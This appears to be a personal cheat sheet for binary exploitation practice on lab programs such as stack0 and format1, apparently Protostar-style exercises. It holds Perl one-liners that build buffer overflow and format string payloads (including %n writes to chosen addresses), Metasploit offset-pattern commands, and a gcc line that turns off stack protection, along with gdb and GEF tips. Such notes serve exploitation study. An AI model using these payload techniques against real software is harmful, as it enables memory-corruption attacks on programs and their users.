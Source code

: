 =============================================
		Using PERL for argument.
=============================================
`perl -e 'print  "\x31\xc0\x50\x68\" . "A"x76 . "\x28\xf4\xff\xbf" '`
`perl -e 'print  "A"x100 '`
inside gdb# run $(perl -e 'print "A"x100')
 
=============================================
		Patterns for rewrite 
=============================================	
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 63413563 


=============================================
		Compile in Kali with no protection
=============================================
gcc stack0.c -o stack0 -fno-stack-protector -z execstack -no-pie -m32 -ggdb


=============================================
		HEX file representation
=============================================
xxd pattern
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab

=============================================
		Strings search
=============================================
strings filename
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


=============================================
		Format string example
=============================================
run $(perl -e 'print "\xcc\xcc\xcc". "\x38\x96\x04\x08" . "%x"x165 . "%n"')
 - \x38\x96\x04\x08 address of parameter to change
 - %n should be padded exactly to location of string "\x38\x96\x04\x08" in the stack
 
First find the writable parameter with %x - in our case %6$x:
perl -e 'print  "AAAABBBB"."\x24\x97\x04\x08"."\x26\x97\x04\x08"."%6\$33956x" ."%6\$n"."%7\$33616x" ."%7\$n" ' > exploit

To make:  0x8049724:	0x080484b8
1) we write 84b8 at 0x8049724
2) we write 010804 at 0x8049726 ( + something to 84b8)
  
=============================================
		File info
=============================================
show  dynamic lynced libraries#     ldd format1
show  calls #                       strace ./format1


=============================================
		GEF
=============================================
to divide output into 2 windows
run gef in tmux session#    tmux new-session -s shared
run gef #                   gdb -q ./binnary
crutch to make it work#     gef config gef.debug 1


	
